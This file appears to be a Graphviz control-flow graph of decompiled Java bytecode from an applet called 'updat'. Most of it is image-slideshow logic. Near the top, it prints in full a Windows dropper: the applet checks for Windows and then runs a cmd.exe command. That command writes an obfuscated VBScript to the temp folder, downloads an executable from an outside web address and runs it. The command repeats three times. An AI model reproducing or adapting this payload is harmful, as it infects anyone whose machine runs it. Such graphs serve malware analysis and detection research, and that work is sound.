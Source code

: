 digraph "" {
    "r0 := @this: updat"
    "push \"os.name\""
    "r0 := @this: updat"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updat.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updat.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updat.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updat.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updat.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\updat.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updat.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updat.vbs & echo N8VObVe37C.Open >> %temp%\\updat.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updat.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updat.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updat.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\updat.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\updat.vbs & echo YK16ggjQQ.Send >> %temp%\\updat.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updat.vbs & echo End Function >> %temp%\\updat.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\updat.exe\\\" >> %temp%\\updat.vbs & start %temp%\\updat.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updat.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updat.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updat.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updat.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updat.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updat.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\updat.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updat.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updat.vbs & echo N8VObVe37C.Open >> %temp%\\updat.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updat.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updat.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updat.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\updat.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\updat.vbs & echo YK16ggjQQ.Send >> %temp%\\updat.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updat.vbs & echo End Function >> %temp%\\updat.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\updat.exe\\\" >> %temp%\\updat.vbs & start %temp%\\updat.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updat.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updat.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updat.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updat.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updat.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\updat.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\updat.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updat.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updat.vbs & echo N8VObVe37C.Open >> %temp%\\updat.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updat.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updat.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updat.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\updat.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\updat.vbs & echo YK16ggjQQ.Send >> %temp%\\updat.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updat.vbs & echo End Function >> %temp%\\updat.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\updat.exe\\\" >> %temp%\\updat.vbs & start %temp%\\updat.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updat.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <updat: int w>"
    "push -1"->"fieldput <updat: int w>";
    "fieldput <updat: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <updat: int h>"
    "push -1"->"fieldput <updat: int h>";
    "fieldput <updat: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <updat: boolean whb>"
    "push 0"->"fieldput <updat: boolean whb>";
    "fieldput <updat: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <updat: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <updat: int fi(java.lang.String,int,int)>";
    "fieldput <updat: int dly>"
    "virtualinvoke <updat: int fi(java.lang.String,int,int)>"->"fieldput <updat: int dly>";
    "fieldput <updat: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <updat: int fi(java.lang.String,int,int)>";
    "fieldput <updat: int wp>"
    "virtualinvoke <updat: int fi(java.lang.String,int,int)>"->"fieldput <updat: int wp>";
    "fieldput <updat: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <updat: int fi(java.lang.String,int,int)>";
    "fieldput <updat: int sc>"
    "virtualinvoke <updat: int fi(java.lang.String,int,int)>"->"fieldput <updat: int sc>";
    "fieldput <updat: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <updat: int fi(java.lang.String,int,int)>";
    "fieldput <updat: int modd>"
    "virtualinvoke <updat: int fi(java.lang.String,int,int)>"->"fieldput <updat: int modd>";
    "fieldput <updat: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updat: int modd>"
    "load.r r0"->"fieldget <updat: int modd>";
    "push 2"
    "fieldget <updat: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <updat: int modd>";
    "fieldput <updat: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <updat: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <updat: java.awt.MediaTracker tracker>";
    "fieldput <updat: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <updat: int i>"
    "push 1"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <updat: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updat: java.lang.String ivalign>";
    "fieldput <updat: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <updat: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updat: java.lang.String ialign>";
    "fieldput <updat: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <updat: int i>"
    "load.r r0"->"fieldget <updat: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <updat: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <updat: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updat: java.lang.String bs>";
    "fieldput <updat: java.lang.String bs>"->"load.r r0";
    "fieldget <updat: java.lang.String bs>"
    "load.r r0"->"fieldget <updat: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <updat: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldput <updat: int num>"
    "fieldget <updat: int i>"->"fieldput <updat: int num>";
    "fieldput <updat: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updat: int num>"
    "load.r r0"->"fieldget <updat: int num>";
    "fieldget <updat: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <updat: java.awt.Image[] img>"
    "newarray"->"fieldput <updat: java.awt.Image[] img>";
    "fieldput <updat: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int num>";
    "fieldget <updat: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <updat: int[] imgw>"
    "newarray"->"fieldput <updat: int[] imgw>";
    "fieldput <updat: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int num>";
    "fieldget <updat: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <updat: int[] imgh>"
    "newarray"->"fieldput <updat: int[] imgh>";
    "fieldput <updat: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int num>";
    "fieldget <updat: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <updat: int[] dur>"
    "newarray"->"fieldput <updat: int[] dur>";
    "fieldput <updat: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <updat: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <updat: java.awt.Image[] img>"
    "load.r r0"->"fieldget <updat: java.awt.Image[] img>";
    "fieldget <updat: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <updat: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <updat: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <updat: java.awt.MediaTracker tracker>";
    "fieldget <updat: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <updat: java.awt.Image[] img>";
    "fieldget <updat: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "arrayread.r"
    "fieldget <updat: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "push 5"
    "fieldget <updat: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <updat: int durum>"
    "push 0"->"fieldput <updat: int durum>";
    "fieldput <updat: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <updat: int w>";
    "fieldput <updat: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <updat: int h>";
    "fieldput <updat: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updat: int w>"
    "load.r r0"->"fieldget <updat: int w>";
    "fieldget <updat: int w>"->"load.r r0";
    "fieldget <updat: int h>"
    "load.r r0"->"fieldget <updat: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <updat: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <updat: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <updat: java.awt.Image offi>";
    "fieldput <updat: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <updat: java.awt.Image offi>"
    "load.r r0"->"fieldget <updat: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <updat: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <updat: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <updat: java.awt.Graphics offg2>";
    "fieldput <updat: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <updat: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <updat: java.awt.Graphics offg2>";
    "fieldget <updat: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int w>";
    "fieldget <updat: int w>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <updat: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <updat: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <updat: java.awt.Container container>";
    "fieldput <updat: java.awt.Container container>"->"load.r r0";
    "fieldget <updat: java.awt.Container container>"
    "load.r r0"->"fieldget <updat: java.awt.Container container>";
    "instanceof"
    "fieldget <updat: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <updat: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <updat: java.awt.Container container>";
    "fieldput <updat: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: java.awt.Container container>";
    "checkcast"
    "fieldget <updat: java.awt.Container container>"->"checkcast";
    "fieldput <updat: java.awt.Frame frm>"
    "checkcast"->"fieldput <updat: java.awt.Frame frm>";
    "fieldput <updat: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <updat: boolean whb>";
    "return"
    "fieldput <updat: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: java.lang.String bs>";
    "push \".gif\""
    "fieldget <updat: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <updat: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: java.lang.String bs>";
    "push \".png\""
    "fieldget <updat: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <updat: int i>";
    "fieldget <updat: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <updat: int i>";
    "fieldput <updat: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
